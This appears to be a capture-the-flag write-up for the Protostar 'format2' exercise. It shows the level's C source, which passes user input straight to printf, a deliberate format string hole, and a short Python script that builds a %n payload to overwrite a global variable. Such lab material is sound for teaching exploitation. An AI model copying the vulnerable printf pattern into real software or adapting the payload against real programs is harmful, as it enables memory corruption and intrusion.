

# Format Two

## Description

This level moves on from format1 and shows how specific values can be written in memory.

This level is at /opt/protostar/bin/format2

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit script

```python
payload = "%64c" + "%6$n" + "\xe4\x96\x04\x08"
print(payload)
```

<p align="center">
    
</p>